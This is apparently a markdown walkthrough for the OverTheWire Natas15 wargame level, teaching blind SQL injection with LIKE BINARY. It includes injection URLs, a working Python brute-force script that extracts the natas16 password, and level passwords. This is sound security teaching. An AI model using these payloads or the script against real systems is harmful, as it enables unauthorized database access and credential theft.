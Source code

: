 # 🔐 Natas15 Walkthrough

In this level, we only have a `username` form, that's used to check the existence of a username in the database. Naturally we want to check if a the database contains the **natas16** information. Putting natas16 into the form we get: 

```
This user exists.
```

✅ This confirms that the form has access to the `natas16` login data. If the username exists, there's definitely a **password** stored nearby — we just need to extract it. 

## 📄 View the Source Code

As with previous levels, let’s check the [View sourcecode](http://natas15.natas.labs.overthewire.org/index-source.html) 

We see:

```php
if(array_key_exists("debug", $_GET)) {
    echo "Executing query: $query<br>";
}
```

✅ So there's a **debug mode** that will echo the executed SQL query. We can trigger it by adding `&debug` to the URL.

Try this:

```
http://natas15.natas.labs.overthewire.org/?username=&debug
```

This shows us the contents of the `username` variable, as before this will be helpfull in manipulating our `""` injection.

## 🧪 Trying basic SQL injection

Let’s test a basic injection like in Natas14:

```
INPUT:
http://natas15.natas.labs.overthewire.org?username=password" OR "1&debug

OUTPUT:
Executing query: SELECT * from users where username="password" OR "1"
This user exists.
```
**It works** — but this query just checks if any matching row exists. There’s no password input or output here. So instead of bypassing authentication, we now have to figure out the password for natas16 **one character at a time** this is called ***blind SQL injection.***


## 🎯 Blind SQL injection with `LIKE BINARY`

#### What is LIKE BINARY?
`LIKE BINARY` is a SQL operator used to perform **case-sensitive pattern matching**. It works like the standard `LIKE`, but with `BINARY`, comparisons **respect the exact letter casing** (uppercase ≠ lowercase).

- ✅ Use when you want to match patterns exactly, including letter case.  
- ❌ Without `BINARY`, `LIKE` treats uppercase and lowercase letters as the same (in most databases like MySQL).
```
Without `BINARY` (case-insensitive):
SELECT * FROM users WHERE password LIKE 'pass%';

✅ Matches: `password`, `Pass123`, `PASS`

-------------------------------------------------------

With `BINARY` (case-sensitive):
SELECT * FROM users WHERE password LIKE BINARY 'pass%';

✅ Matches: `password`  
❌ Doesn’t match: `Password`, `PASS`
```

This is exactly what we need to extract `natas16`’s password reliably.

## 🔬 LIKE BINARY Test example

To check if the password contains a character (e.g., `c`), we can try:

>[!IMPORTANT]
>Remember that url characters have their own encoding!



```
form:
username = natas16" and password LIKE BINARY "%c%

ulr:
http://natas15.natas.labs.overthewire.org/?username=natas16%22%20and%20password%20LIKE%20BINARY%20%22%c%&debug
```
This checks whether the password contains the letter `c`.  
If it does, the site returns:

***This user exists.***

## 🤖 Automating this process
So obviously we could just manually put all of the english alphabet both in lowercase and uppercase + digits, this would be, as you can probably tell, very repetetive and would take a long time. So, being the hackers that we are, let's automate the process.

>[!NOTE]
>A more polished, visually appealing version of this script is also available in the directory. That version includes styled console output and progress indicators but may run slightly slower due to the added formatting. Use whichever you prefer — this version is optimized for speed.

#### Step 1: Discover valid characters
```python
# Natas15 bruteforce script :)

import requests, string

url = "http://natas15.natas.labs.overthewire.org"
username = "natas15"
password = "SdqIqBsFcz3yotlNYErZSZwblkm0lrvx"

# Get the entire English alphabet (uppercase and lowercase) plus digits.
char_data = string.ascii_letters + string.digits
password_char_data = []

# ========= Step 1: Build a character dictionary =========
print("[*] Building character set...")
for char in char_data:
    injection = f'natas16" AND password LIKE BINARY "%{char}%" -- '
    response = requests.get(url, auth=(username, password), params={'username': injection})
    if "This user exists." in response.text:
        password_char_data.append(char)
        print(f"[+] Found valid character: {char}")

print("\n[✔] Character dictionary complete:")
print("".join(password_char_data))
```

This portion of the script establishes a list `password_char_data` of all the alphanumeric characters that result in `This user exists.` After establishing this list we can deduct the whole password in the same way, but **sorted correctly**, the script continues:


#### Step 2: Brute force the password

```python
# ========= Step 2: Brute-force the password =========
print("\n[*] Starting brute-force...")
natas16_password = ""

# Natas passwords are no longer then 32 characters, via the previous passwords.
while len(natas16_password) < 32:  
    for char in password_char_data:
        attempt = natas16_password + char
        injection = f'natas16" AND password LIKE BINARY "{attempt}%" -- '
        response = requests.get(url, auth=(username, password), params={'username': injection})

        if "This user exists." in response.text:
            natas16_password += char
            print(f"[+] Password so far: {natas16_password}")


print("\n[✔] Your password for natas16:")
print(natas16_password)
```

The output should take you through all the steps it did and it looks something like this:

```
[*] Building character set...
[+] Found valid character: c
[+] Found valid character: e
[+] Found valid character: f
(...)
[+] Found valid character: Y
[+] Found valid character: 3
[+] Found valid character: 4
[+] Found valid character: 6

[✔] Character dictionary complete:
cefhijkmostuvDEGKLMPQVWXY346

[*] Starting brute-force...
[+] Password so far: h
[+] Password so far: hP
[+] Password so far: hPk
(...)
[+] Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4s
[+] Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4sG
[+] Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4sGo

[✔] Your password for natas16:
hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
```

And that's it, your natas16 password is right there! `(:`.